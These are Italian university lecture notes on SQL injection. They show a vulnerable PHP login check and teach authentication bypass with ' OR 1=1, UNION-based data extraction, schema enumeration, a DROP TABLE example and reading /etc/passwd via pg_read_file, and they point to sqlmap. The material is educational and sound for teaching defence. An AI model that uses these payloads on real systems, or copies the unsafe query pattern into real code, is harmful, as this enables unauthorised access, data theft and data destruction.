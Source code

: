 ```yaml
---
id: '17'
lezione: "20231123"
title: "Web security - 2"
author: "Sam. K."
keywords: ["sql injection","sql","php", "sql injection payloads", "sql map"]
---
```


<style>
    strong{
        background-color:#faf43e;
        color: black;
        padding:0.1rem 0.2rem;
        border-radius:5px;
    }
</style>
## Materiale
* [Slides](/appunti/assets/docs/web_security.pdf)

# Web security - 2
```sh
docker exec -it <container_name> /bin/sh # per accedere al container con terminale bash
```

## SQL injection
SQL injection è una tecnica di attacco web che permette di bypassare controllo degli accessi, estrarre informazioni dal database oppure di compromettere il database attraverso una iniezione del codice SQL maligno. 

![SQL injection](assets/images/SQL-Injection.jpg)

Alcuni esempi:    

Questo codice può essere usato per esempio se il server fa un controllo del password come 

```php
$password = $_POST['password'];

$check = query("SELECT * FROM login_tb WHERE password='$password'");

if($check>0) echo 'OK';
```
```sql
-- se uso il seguente input come password, posso bypassare il check
' OR 1=1; -- 
```
```php
query("SELECT * FROM login_tb WHERE password='' OR 1=1; --");
```
Cioè il risultato sarà sempre `TRUE` perché `1=1` è sempre vera, inoltre con `--` viene commentato tutto il resto della riga.

"`--`" SQL comment

Altri esempio:
```sql
SELECT * FROM Products WHERE ProductID = 15; DROP TABLE Suppliers;
SELECT * FROM Orders WHERE OrderID = 16 AND 1=1;
SELECT * FROM Users WHERE Login = 'Admin' -- ' AND Password=' '
```

```sql
SELECT productid,name,price FROM products WHERE Name=' *' UNION SELECT 1, string_agg(username,','), 1 FROM users*
```

Una funzione molto usata di postgres è `string_agg('colonna',' ,')` string aggregate restituisce i risultati della query aggregando tutto in una riga con entry separate con una virgola, l'attaccante pensa sempre che ci sia un `LIMIT 1`.


```sql
select * somethin,somethin from table_name UNION select something,somethin from table_name;
```

`UNION` deve avere delle colonne che hanno la stessa grandezza

```sql
select * from <table_name> order by <col_number>
```

`UNION SELECT 1,NULL,NULL;` per scoprire se la prima colonna è numerico ignorando = `NULL` la colonna 2 e 3, se questa query va a buon fine significa che è una colonna di tipo numerico (intero). Con questo modo si può scoprire che il tipo di colonna oppure se esiste una certa colonna.

## Un modo per scoprire tutte le tabelle e colonne del database.

```sql
select column_name from information_schema.columns  -- all columns 
select table_name from information_schema.tables -- all tables
```

`information_schema` normalmente è protetta con un controllo degli accessi.

[SQL injection payloads](https://github.com/payloadbox/sql-injection-payload-list) una lista di payloads.

```sql
UNION SELECT null,version(),null FROM pg_stat_user_tables -- stampa informazioni tecniche del database

union select null,pg_is_dir('/bin'),null from pg_stat_user_tables -- stampa i file della directory

union select null,pg_read_file('etc/passwd'),null from pg_stat_user_tables -- legge il file
```
## SQL Map
SQLmap un tool per automatizzare il testing di sql injection con una serie di payload
[SQL map](https://github.com/sqlmapproject/sqlmap)

```sh
python3 sqlmap.py -u "url"
```